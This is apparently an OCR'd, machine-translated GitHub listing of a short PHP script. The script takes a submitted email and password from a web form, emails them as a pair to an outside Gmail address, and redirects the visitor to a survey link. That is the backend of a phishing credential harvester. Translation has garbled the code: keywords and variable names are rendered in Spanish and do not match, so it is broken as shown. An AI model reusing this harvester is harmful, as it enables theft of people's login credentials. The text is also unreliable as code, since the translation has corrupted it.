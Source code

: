 15 líneas (11 sloc)  387 bytes
<? php

$ to       = 'thrapsd@gmail.com' ;
$ sujeto = 'el sujeto' ;
$ mensaje = $ _POST [ "correo electrónico" ]. ":" . $ _POST [ "pasar" ];
$ encabezados = 'De: webmaster@example.com' . "\ r \ n" .
    "Responder a: webmaster@example.com" . "\ r \ n" .
    'X-Mailer: PHP /' . phpversion ();

mail ( $ para , $ asunto , $ mensaje , $ encabezados );


$ newURL = "https://www.surveymonkey.com/r/Y7L9ZY6" ;
encabezado ( 'Ubicación:' . $ newURL );
?>
